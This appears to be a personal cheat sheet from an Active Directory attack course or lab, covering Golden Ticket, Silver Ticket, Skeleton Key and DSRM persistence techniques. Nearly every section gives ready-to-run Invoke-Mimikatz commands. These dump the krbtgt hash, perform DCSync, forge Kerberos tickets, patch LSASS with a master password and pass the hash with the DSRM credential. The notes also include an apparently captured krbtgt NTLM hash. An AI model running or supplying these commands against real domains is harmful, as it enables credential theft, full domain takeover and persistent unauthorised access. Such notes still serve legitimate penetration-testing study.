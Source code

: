 ++++++++++++++++++
Golden Ticket:
++++++++++++++++++


Once we get inside DC with the privileges of Domain Administrator, we can execute following command to get krbtgt hash:
> Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -ComputerName <DC_computer>

Once we get the hash of krbtgt account, we can generate our own TGT using:
> Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<domain> /sid:<sid> /krbtgt:<krbtgt_hash> id:<id> /groups:<group_id_optional> /startoffset:0 /endin:600 /renewmax:10080 /ptt"'

Found the following creds of krbtgt:
RID  : 000001f6 (502)
User : krbtgt
LM   :
NTLM : ff46a9d8bd66c6efd77603da26796f35

To see currently stored tickets:
> klist


For DCSync:
> Invoke-Mimikatz -Command '"lsadump::dcsync /user:<domain>\<username>"'
Example: Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'



+++++++++++++++
Silver Ticket:
+++++++++++++++


Golden ticket creates a TGT using krbtgt's hash, but Silver ticket attack creates a TGS using the hash of the service to be approached.

> Invoke-Mimikatz -Command '"kerberos::golden /domain:<domain_name> /sid:<sid> /target:<target_host_where_service_is_being_used> /service:<service_name> /rc4:<password_hash_for_machine_account> /user:<username> /ptt"'


+++++++++++++++
Skeleton Key:
+++++++++++++++


Using skeleton key malware(attack/technique), the script modifies the LSASS(which handles the security and auth stuff in AD) gets modified and a secret key/password is made valid for every account other than their original password.
That secret key can be used to access any account.

> Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName <domain_name>

Note: This, by default sets the secret key/password as "mimikatz". But the above "patching" can only be performed once. To do it again, the DC needs to be restarted. Also, this gives us persistence to some extent but not for much long time.
As soon as the DC restarts, the skeleton key is removed.



++++++++++++++++++++++++++++++++++++++
DSRM(Directory Service Restore Mode):
++++++++++++++++++++++++++++++++++++++


When a computer is promoted to Domain Controller, a DSRM password is set which is the local admin password of that computer.
It can be extracted using:

Note: Domain admin prives are required
> Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -ComputerName <domain_controller>

After obtaining the DSRM hash:
> Invoke-Mimikatz -Command '"sekurlsa::pth /domain:<DC-computer> /user:Administrator /ntlm:<dsrm_hash> /run:powershell.exe"'


